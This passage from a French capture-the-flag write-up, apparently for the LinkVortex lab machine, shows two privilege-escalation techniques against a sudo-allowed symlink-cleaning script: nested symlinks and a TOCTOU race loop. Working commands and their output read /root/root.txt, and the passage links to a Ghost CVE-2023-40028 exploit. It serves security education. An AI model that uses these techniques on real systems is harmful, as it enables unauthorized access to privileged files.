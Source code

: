 On peut utiliser deux approches pour contourner ces vérifications et lire root.txt : les liens symboliques imbriqués ou en exploitant la race condition entre la verification du lien symbolique et la lecture de celui-ci.

### Methode 1: Liens symboliques imbriqués
On crée deux liens symboliques, link1.png vers link2.png et link2.png vers /root/root.txt.\
De cette façon, link1 contourne la vérification des termes.

/home/bob/link1.png -> /home/bob/link2.png -> root.txt

{{< highlight go "hl_lines=4" >}}
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ ln -s /root/root.txt link2.png
bob@linkvortex:~$ ln -s $PWD/link2.png link1.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link1.png
Link found [ link1.png ] , moving it to quarantine
Content:
6<...>3
{{< /highlight >}}

### Methode 2: TOCTOU 
Le script vérifie si le fichier est un lien symbolique via ```/usr/bin/test -L link.png```. Ensuite, il utilise ```basename``` et ```readlink``` en se basant sur cette hypothèse.\
Entre cette vérification et la lecture du lien, on peut exploiter la vulnérabilité en interchangeant continuellement la cible du lien symbolique de ```/tmp/random``` à ```/root/root.txt```.

Dans un premier terminal, on exécute une boucle qui interchange la cible du lien.\
Dans un autre terminal, on exécute en boucle le script.

Si le timing est bon, le script renvoie le contenu de `root.txt`.\
Cette vulnérabilité est connue sous le nom de TOCTOU (Time-of-Check to Time-of-Use).\
En s'aidant de cet [article](https://brandon-t-elliott.github.io/tic-tac), on peut essayer d’accéder à `root.txt`.

Terminal 1
{{< highlight go "hl_lines=1" >}}
bob@linkvortex:~$ timeout 5s bash -c 'while true; do ln -sf $PWD/random $PWD/link.png; ln -sf /root/root.txt $PWD/link.png; done'
ln: failed to create symbolic link '/home/bob/link.png': File exists
ln: failed to create symbolic link '/home/bob/link.png': File exists
<...>
{{< /highlight >}}

Terminal 2
{{< highlight go "hl_lines=1 4" >}}
bob@linkvortex:~$ timeout 2s bash -c 'while true; do sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png; done'
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
! Trying to read critical files, removing link [ link.png ] !
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
<...>
{{< /highlight >}}


## Ressources
> [CVE-2023-40028 exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)\
> [GitHack](https://github.com/lijiejie/GitHack)\
> [CTF Writeup: picoCTF 2023 - "Tic-Tac"](https://brandon-t-elliott.github.io/tic-tac)